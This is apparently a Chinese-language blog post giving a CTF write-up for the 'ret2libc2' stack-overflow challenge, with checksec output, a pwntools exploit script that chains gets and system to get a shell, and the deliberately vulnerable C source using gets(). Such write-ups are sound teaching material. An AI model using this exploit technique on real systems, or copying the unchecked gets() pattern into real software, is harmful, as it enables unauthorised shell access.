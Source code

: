 ```yaml
---
layout:     post
title:      ret2libc2
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```


```
checksec ret2libc2

[*] '/home/hello/Desktop/test/ret2libc2/ret2libc2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



```
file ret2libc2

ret2libc2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2libc2)





ret2lib2与ret2lib1相比，最大的区别在于，程序中没有/bin/sh字符串，所以我们需要从其他地方获取/bin/sh字符串，并传递到system函数中



这里我们先跳转到gets函数，用来接收我们输入的 ‘/bin/sh’ 字符串，存储在buf2中，然后返回到sysytem函数，把buf2的地址传递给system函数，相当于通过指针传递参数

```python
payload = flat(['a'*112, gets_plt, pop_ebp, buf2, system_plt, ret_addr, buf2])
```







exp.py

```python
#!/bin/sh/env python

from pwn import *

sh = process('./ret2libc2')
elf = ELF('./ret2libc2')

gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
ret_addr = 0x8048490

pop_ebp = 0x0804872f

buf2 = 0x804A040

payload = flat(['a'*112, gets_plt, pop_ebp, buf2, system_plt, ret_addr, buf2])

sh.sendline(payload)
#sh.sendline('/bin/sh')
sh.interactive()
```





ret2libc2.c

```c
#include <stdio.h>

#include <stdlib.h>

#include <time.h>


char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```